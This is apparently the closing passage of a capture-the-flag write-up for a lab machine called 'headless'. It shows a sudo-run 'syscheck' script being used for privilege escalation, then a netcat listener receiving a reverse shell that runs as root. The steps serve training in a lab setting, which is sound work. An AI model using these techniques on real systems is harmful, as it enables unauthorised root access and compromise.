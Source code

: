 We run the script

```
bash-5.2$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.04, 0.03, 0.00
Database service is not running. Starting it...
```

We are root

```
┌─[tobaka@parrot]─[~/.ssh]
└──╼ $nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.10.14.81] from (UNKNOWN) [10.10.11.8] 41014
root@headless:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
```

---
